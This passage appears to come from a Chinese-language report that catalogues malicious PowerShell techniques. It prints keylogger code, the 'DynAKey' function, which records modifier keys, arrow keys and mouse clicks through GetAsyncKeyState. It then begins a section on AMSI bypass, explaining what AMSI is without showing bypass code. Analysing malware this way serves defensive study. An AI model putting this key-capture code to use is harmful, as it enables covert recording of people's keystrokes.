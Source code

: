 ```
if ($RightArrow)   {$LogOutput += '[Right Arrow]'}
if ($UpArrow)      {$LogOutput += '[Up Arrow]'}
if ($DownArrow)    {$LogOutput += '[Down Arrow]'}
if ($LeftMouse)    {$LogOutput += '[Left Mouse]'}
if ($RightMouse)   {$LogOutput += '[Right Mouse]'}
```

DynAKey函数代码：



```
$LeftShift = $ImportDll::GetAsyncKeyState(160)
$RightShift = $ImportDll::GetAsyncKeyState(161)
$LeftCtrl = $ImportDll::GetAsyncKeyState(162)
$RightCtrl = $ImportDll::GetAsyncKeyState(163)
$LeftAlt = $ImportDll::GetAsyncKeyState(164)
$RightAlt = $ImportDll::GetAsyncKeyState(165)
$TabKey = $ImportDll::GetAsyncKeyState(9)
$SpaceBar = $ImportDll::GetAsyncKeyState(32)
$DeleteKey = $ImportDll::GetAsyncKeyState(127)
$EnterKey = $ImportDll::GetAsyncKeyState(13)
$BackSpaceKey = $ImportDll::GetAsyncKeyState(8)
$LeftArrow = $ImportDll::GetAsyncKeyState(37)
$RightArrow = $ImportDll::GetAsyncKeyState(39)
$UpArrow = $ImportDll::GetAsyncKeyState(38)
$DownArrow = $ImportDll::GetAsyncKeyState(34)
$LeftMouse = $ImportDll::GetAsyncKeyState(1)
$RightMouse = $ImportDll::GetAsyncKeyState(2)
if ((($LeftShift -eq -32767) -or ($RightShift -eq -32767)) -or (($LeftShift -eq -32768) -or ($RightShfit -eq -32768))) {$LogOutput += '[Shift] '}
if ((($LeftCtrl -eq -32767) -or ($LeftCtrl -eq -32767)) -or (($RightCtrl -eq -32768) -or ($RightCtrl -eq -32768))) {$LogOutput += '[Ctrl] '}
if ((($LeftAlt -eq -32767) -or ($LeftAlt -eq -32767)) -or (($RightAlt -eq -32767) -or ($RightAlt -eq -32767))) {$LogOutput += '[Alt] '}
if (($TabKey -eq -32767) -or ($TabKey -eq -32768)) {$LogOutput += '[Tab] '}
if (($SpaceBar -eq -32767) -or ($SpaceBar -eq -32768)) {$LogOutput += '[SpaceBar] '}
if (($DeleteKey -eq -32767) -or ($DeleteKey -eq -32768)) {$LogOutput += '[Delete] '}
if (($EnterKey -eq -32767) -or ($EnterKey -eq -32768)) {$LogOutput += '[Enter] '}
if (($BackSpaceKey -eq -32767) -or ($BackSpaceKey -eq -32768)) {$LogOutput += '[Backspace] '}
if (($LeftArrow -eq -32767) -or ($LeftArrow -eq -32768)) {$LogOutput += '[Left Arrow] '}
if (($RightArrow -eq -32767) -or ($RightArrow -eq -32768)) {$LogOutput += '[Right Arrow] '}
if (($UpArrow -eq -32767) -or ($UpArrow -eq -32768)) {$LogOutput += '[Up Arrow] '}
if (($DownArrow -eq -32767) -or ($DownArrow -eq -32768)) {$LogOutput += '[Down Arrow] '}
if (($LeftMouse -eq -32767) -or ($LeftMouse -eq -32768)) {$LogOutput += '[Left Mouse] '}
if (($RightMouse -eq -32767) -or ($RightMouse -eq -32768)) {$LogOutput += '[Right Mouse] '}
```

**（四）其他技术类别**

**4.24 AMSI Bypass（8个样本，占比0.20%）**

反恶意软件扫描接口（Antimalware Scan Interface, AMSI）是微软在Windows10中新增的一项功能，旨在为应用程序和反病毒软件建立顺畅的通信渠道。理想情况下，应用程序（在本文中为PowerShell应用）在运行时会对从本地或远程获取到的脚本去混淆处理，通过AMSI接口传递给反病毒软件进行安全性扫描。如果反病毒软件判定脚本具有恶意性质，应用程序会阻止脚本的进一步运行。
